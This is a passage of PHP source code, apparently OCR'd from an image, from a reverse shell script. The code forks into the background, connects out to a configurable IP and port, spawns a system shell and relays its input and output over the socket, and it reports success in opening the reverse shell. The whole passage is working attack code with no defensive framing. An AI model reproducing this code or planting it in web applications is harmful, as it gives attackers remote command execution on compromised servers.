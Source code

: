 ``` php
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
```
